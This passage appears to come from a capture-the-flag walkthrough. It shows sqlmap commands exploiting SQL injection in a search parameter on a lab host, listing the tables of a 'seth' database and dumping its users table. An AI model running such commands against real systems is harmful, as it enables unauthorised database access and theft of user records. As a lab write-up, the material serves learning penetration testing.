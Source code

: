 ![](/assets/img/nk/image-9.png)Output of sqlmap ![](/assets/img/nk/image-10.png)

Ok, now we have access to database. That **seth** database looks interesting. Let's check that out. The following commands lists the tables inside the "seth" database:
    
    
    # sqlmap --url http://192.168.43.148/kzMb5nVYJw/420search.php?usrtosearch= -D seth --tables

![](/assets/img/nk/image-11.png)

Looks like we are heading the right way. Let's dump all the records inside the table **users**.
    
    
    # sqlmap --url http://192.168.43.148/kzMb5nVYJw/420search.php?usrtosearch= -D seth -T users --dump
